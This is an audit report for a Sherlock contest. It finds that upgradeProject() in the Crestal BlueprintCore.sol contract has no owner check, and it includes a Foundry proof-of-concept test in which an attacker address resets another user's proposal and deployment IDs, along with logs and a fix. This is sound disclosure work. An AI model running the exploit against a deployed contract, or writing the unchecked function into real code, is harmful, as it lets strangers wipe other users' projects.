 Prehistoric Topaz Moose

Medium

# Unlimited role for upgradeProject function will allow attacker to reset on other user's project

### Summary

In BlueprintCore.sol

https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L198


As upgradeProject() function doesn't check owner of the project, any user can reset the other user's project.

### Root Cause

In upgradeProject
```solidity
function upgradeProject(bytes32 projectId) public hasProject(projectId) {
        // reset project info
        projects[projectId].requestProposalID = 0;
        projects[projectId].requestDeploymentID = 0;
        projects[projectId].proposedSolverAddr = dummyAddress;
    }
```

As shown, upgradeProject has no checking for owner of project.
So if any user know the project id, can reset other user's project.

### Internal Pre-conditions

N/A

### External Pre-conditions

N/A

### Attack Path

N/A

### Impact

Any user can reset other user project that is already requested proposal or requested deploy 
This could lead breakdown of protocol.

### PoC

In BlueprintV5.t.sol

- Add following function

```solidity
function test_upgrade_other_user_project() public{

        address user = address(0x01);
        address attacker = address(0x02);



        bytes32 projectId1 = bytes32(uint256(101));

        vm.prank(user);
        bytes32 proposalId = blueprint.createProjectIDAndProposalRequest(projectId1, "test base64 param", "test server url");

        (, bytes32 requestProposalID_correct1, ) = blueprint.getProjectInfo(projectId1);
        console.logBytes32(requestProposalID_correct1);

        vm.prank(attacker);
        blueprint.upgradeProject(projectId1);
        (, bytes32 requestProposalID_incorrect1, ) = blueprint.getProjectInfo(projectId1);
        console.logBytes32(requestProposalID_incorrect1);


        bytes32 projectId2 = bytes32(uint256(102));
        vm.prank(user);
        bytes32 deploymentRequestId =
            blueprint.createProjectIDAndDeploymentRequest(projectId2, "test base64 param", "test server url");
            
        (, , bytes32[] memory requestDeploymentIDs_correct) = blueprint.getProjectInfo(projectId2);
        console.logUint(requestDeploymentIDs_correct.length);

        vm.prank(attacker);
        blueprint.upgradeProject(projectId2);

        (, , bytes32[] memory requestDeploymentIDs_incorrect) = blueprint.getProjectInfo(projectId2);
        console.logUint(requestDeploymentIDs_incorrect.length);
        
    }
```

- Run command : forge test --match-test test_upgrade_other_user_project -vv

- Result

Logs:
  0x310ab2b5b082111ca1aee4bd57a891caaf02c232ec7ad7b93cb2681327eb74c5
  0x0000000000000000000000000000000000000000000000000000000000000000
  1
  0

As result shows, proposalId of project1 is reset and deploymentRequestId of project2 is reset by attacker.

### Mitigation

Need to add role that checks if msg.sender is owner of project or not in upgradeProject() function.